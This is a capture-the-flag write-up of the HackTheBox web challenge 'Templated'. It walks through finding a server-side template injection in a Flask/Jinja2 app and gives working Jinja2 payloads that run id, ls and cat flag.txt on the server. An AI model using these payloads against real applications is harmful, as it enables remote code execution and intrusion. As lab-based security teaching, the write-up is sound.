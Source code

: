 ```yaml
---
title: HackTheBox | Templated
description: Writeup of a easy-rated Web Exploitation Challenge from HackTheBox
date: 2023-06-27 12:00:00 -500
categories: [HackTheBox, Easy]
tags: [Web Exploitation, SSTI, RCE, Werkzeug, Flask, Jinja2]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/htb-templated/HTB.jpg
---
```


***

<center><strong><font color="DarkGray"><a href="https://app.hackthebox.com/challenges/templated" target="_blank"><er>Templated</er></a> is a Web Exploitation challenge from HackTheBox that revolves around exploiting a Server-Side Template Injection vulnerability in order to achieve remote code execution on the server and eventually get the flag</font></strong></center>

***

## **<strong><font color="Brown">Challenge Name</font></strong>**
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 01_12_53-Hack The Box __ Hack The Box — Mozilla Firefox.png" alt="">
<center><i>Templated Challenge</i></center>
<br/>

## **<strong><font color="Brown">Challenge Description</font></strong>**
***
* Can you exploit this simple mistake?

## **<strong><font color="Brown">Write-Up</font></strong>**
***
### **<strong><font color="DarkCyan">Enumeration:</font></strong>** 
#### **<strong><font color="MediumPurple">Front page:</font></strong>**
Navigating to the provided docker instance (``144.126.206.23:32088``), you will be presented with the following web page:
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_28_04-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Front page</i></center>

* The website's front page is pretty empty as it primarily consists of text without any interactive elements such as buttons, logos, or clickable features.
* However, the front page reveals the framework and templating engine being used in the backend of this application, which is `Flask/Jinja2`

#### **<strong><font color="MediumPurple">Source code:</font></strong>**
The source code of the page doesn't contain any hidden secrets, such as developer's comments or hidden directories.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_32_43-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Source code</i></center>

#### **<strong><font color="MediumPurple">Server's response:</font></strong>**
Taking a look at the server's response, the `Server` HTTP header discloses the use of `Werkzeug/1.0.1` and  `Python/3.9.0` is used in conjunction with `Flask` as the backend infrastructure.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_50_04-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Server Header</i></center>

#### **<strong><font color="MediumPurple">Werkzeug's console:</font></strong>**
``Werkzeug`` is a comprehensive WSGI (``Web Server Gateway Interface``) utility library for Python. It serves as a foundation for developing web applications, and is often used in conjunction with the web frameworks like `Flask` to handle the level-level aspects of web development. <br/>
``Werkzeug`` provides a development server called `Werkzeug's Debugger` that includes an interactive console known as the `interactive debugger console`. This console allows developers to execute Python code and inspect variables during the debugging process. <br/>
Long story short, if debug mode is enabled, we can access the `/console` endpoint and easily gain `RCE - Remote Code Execution` on the server running the vulnerable web application.

#### **<strong><font color="MediumPurple">Detecting the vulnerability:</font></strong>**
Unfortunately, the debug mode is disabled on the server. However, navigating to `/console` does not return a `404 - NOT FOUND` status-code, rather it returns a `200 FOUND`, which means `404` pages are probably being templated.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 23_12_10-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Templated 404 pages</i></center>

* As you can see, the web application is reflecting the name of the directory or file we want to access, such as in this example `console`.
* This might lead to an `SSTI - Server-Side Template Injection` vulnerabilities, if user input passed via the `URL` is not properly sanitized.

### **<strong><font color="DarkCyan">Exploitation:</font></strong>** 
#### **<strong><font color="MediumPurple">Remote Code Execution:</font></strong>**
Since we know that the server is using Flask, which is a Python library, and we can leverage the `MRO - Method Resolution Order` to traverse upwards in the `request` library within **Flask**. This allows us to import the `os` library. <br/>
Once we have access to the `os` library, we can execute OS commands on the server hosting the web application.<br/>

```python
{% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 23_31_12-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>id command</i></center>
<br/>
Since we already know the templating engine in use, which is `Jinja2`, we can leverage Jinja2-specific expressions like the following:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
```
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_31_10-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>id command</i></center>

* As you can see, this jinja2-specific expression uses the `os` module to execute the `id` command.

#### **<strong><font color="MediumPurple">Flag:</font></strong>**
Now that we have remote code execution on the server, we can execute the `ls` command to list the files and directories located in the current directory:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_38_39-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>ls command</i></center>

* As you can see, there is text file named `flag.txt`

Let's read the content of `flag.txt` file, by injecting the following payload:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_40_33-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Flag</i></center>
